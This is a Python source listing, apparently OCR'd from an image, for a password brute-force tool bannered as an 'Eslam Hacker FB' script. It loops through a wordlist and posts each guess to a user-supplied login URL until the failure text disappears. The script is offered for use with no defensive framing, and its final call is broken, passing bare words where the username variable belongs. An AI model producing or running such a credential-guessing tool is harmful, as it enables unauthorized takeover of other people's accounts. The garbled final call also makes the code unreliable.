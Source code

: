 import requests
from time import sleep
from colorama import Fore, init

init()

def print_banner():
    print(Fore.RED + r"""
     👁️‍🗨️ Welcome 👁️‍🗨️
   ███████╗███████╗██╗     █████╗ ███╗   ███╗
   ██╔════╝██╔════╝██║    ██╔══██╗████╗ ████║
   ███████╗█████╗  ██║    ███████║██╔████╔██║
   ╚════██║██╔══╝  ██║    ██╔══██║██║╚██╔╝██║
   ███████║███████╗███████╗██║  ██║██║ ╚═╝ ██║
   ╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝╚═╝     ╚═╝
       [ Eslam Hacker FB 🔥 Brute Force ]
    """ + Fore.RESET)

def brute_force_login(url, username, user_field, pass_field, fail_text, wordlist_path):
    try:
        with open(wordlist_path, 'r') as file:
            passwords = file.readlines()
    except FileNotFoundError:
        print(Fore.YELLOW + "[!] Wordlist not found!" + Fore.RESET)
        return

    for password in passwords:
        password = password.strip()
        data = {user_field: username, pass_field: password}
        print(Fore.CYAN + f"[+] Trying: {password}" + Fore.RESET)
        response = requests.post(url, data=data)

        if fail_text not in response.text:
            print(Fore.GREEN + f"[✔] Password found: {password}" + Fore.RESET)
            return
        sleep(0.5)

    print(Fore.RED + "[-] Password not found in wordlist." + Fore.RESET)

# ------ Main ------
print_banner()
target_url = input("[?] Login URL: ")
username = input("[?] Username: ")
user_field = input("[?] User Field Name (e.g. user): ")
pass_field = input("[?] Pass Field Name (e.g. pass): ")
fail_text = input("[?] Fail Text in Response (e.g. Login failed): ")
wordlist_path = input("[?] Wordlist Path (e.g. wordlist.txt): ")

brute_force_login(target_url, Eslam Hacker, user_field, pass_field, fail_text, wordlist_path)
python3 brute.py
